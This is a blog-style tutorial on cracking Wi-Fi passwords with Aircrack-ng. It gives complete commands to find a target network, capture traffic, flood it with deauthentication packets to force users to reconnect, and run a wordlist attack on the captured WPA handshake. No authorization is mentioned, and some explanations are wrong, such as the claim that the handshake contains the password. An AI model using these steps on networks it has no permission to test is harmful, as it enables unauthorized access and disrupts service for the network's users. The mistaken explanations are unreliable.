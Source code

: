 ```yaml
---
title: Perform a simple Wi-Fi attack using Aircrack-ng
categories: [OS, Linux]
tags: [Aircrack-ng, Wi-Fi]
pin: false
image:
  path: ./assets/img/2024/aircrack-ng.jpeg
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Aircrack-ng
---
```


I'll show you how to hack Wi-Fi passwords in this article.

1. To perform the attack, we will first install the [needed software](https://aircrack-ng.org):

```bash
sudo apt install aircrack-ng
```

2. And figure out your wireless card's interface name:

```bash
iwconfig # | ifconfig | ip link
```

Mine looks like `wlp2s0`, and remeber to replace it with your own on the following steps.

3. Free your wireless card from present connection if there's any.

```bash
❯ sudo airmon-ng check rfkillsudo                                  
Found 4 processes that could cause trouble.
Kill them using 'airmon-ng check kill' before putting
the card in monitor mode, they will interfere by changing channels
and sometimes putting the interface back in managed mode

    PID Name
   1260 avahi-daemon
   1320 NetworkManager
   1323 wpa_supplicant
   1351 avahi-daemon
```

As you can see, this command has sent a clear message.

If we want to continue the attack, we'll need a wireless card in `monitor` mode. 

Hence, let's kill the processes that have our card occupied using the command below:

```bash
❯ sudo airmon-ng check kill 1260 1320 1323 1351
``` 

4. Now we'll find our target.

```bash
sudo airodump-ng wlp2s0
```

Remember wlp2s0? It's my wireless card's name.

Press `Ctrl+C` to stop the searching process if the Wi-Fi you want to attack has been listed.

5. Capture the traffic.

```bash
sudo airodump-ng -c <channel number> --bssid <access point BSSID> wlp2s0 -w <file path>
```

`<channel number>` and the `<bssid>` can be found from last command's output.

Take the command below as an example:

```bash
sudo airodump-ng -c 6 --bssid 0E:2D:EE:66:95:FC wlp2s0 -w ~/Documents/aircrack_capture/wifiname
```

Note that this command will keep running until we have what we wanted captured, which is a `WPA handshack packet` containing the passwords from a certain user's inputs, and press `Ctrl+C`.

6. Deauthentication attacks.

Remember to run this command in a new terminal if you can recall that our last command is still running.

```bash
sudo aireplay-ng -a <bssid> --deauth <time> wlp2s0
```

Take this as an example.

```bash
sudo aireplay-ng -a 0E:2D:EE:66:95:FC --deauth 1000 wlp2s0
```

Some understandings of my own, this command will send lots of packets to the target network, causing a slow connection which stands a chance that a user will have to input the passwords again can reconnect.

And if the certain packet containing the passwords get captured, you'll see `WPA handshake: 0E:2D:EE:66:95:FC` on another terminal's top left corner.

After that, you can kill both running processes.

7. Match the passwords in captured packet.

```bash
sudo aircrack-ng <packet.cap> -w <path to wordslist>
```

In my case, I copied `rockyou.txt` from `Kali`, you can do so or search the internet to find another way.

Note that there's a chance no correct passwords are included in your wordslist.


